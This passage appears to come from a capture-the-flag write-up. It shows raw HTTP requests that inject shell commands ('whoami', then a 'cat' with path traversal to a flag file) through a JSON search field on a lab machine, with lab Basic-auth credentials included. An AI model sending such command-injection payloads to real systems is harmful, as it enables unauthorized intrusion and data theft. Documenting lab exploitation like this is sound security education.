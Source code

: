 ![writeup.enumeration.steps.5.4](./screenshot05.png)  

6\. We find a way to escape the search input and get command execution on the target machine:  
``` {.python .numberLines}
POST /assets/php/search.php HTTP/1.1
  Host: 10.10.41.240
  User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
  Accept: */*
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate
  Referer: http://10.10.41.240/
  Content-Type: text/plain;charset=UTF-8
  Content-Length: 101
  Authorization: Basic cmFzY2FsOmxvdmU=
  Connection: close

  {"target":"\";whoami\n"}

```

![writeup.enumeration.steps.6.1](./screenshot06.png)  

7\. We use this to triage the file system and find the first web flag file:  
``` {.python .numberLines}
POST /assets/php/search.php HTTP/1.1
  Host: 10.10.41.240
  User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
  Accept: */*
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate
  Referer: http://10.10.41.240/
  Content-Type: text/plain;charset=UTF-8
  Content-Length: 101
  Authorization: Basic cmFzY2FsOmxvdmU=
  Connection: close

  {"target":"\"cat ../../../web-flag.txt;\n"}

```
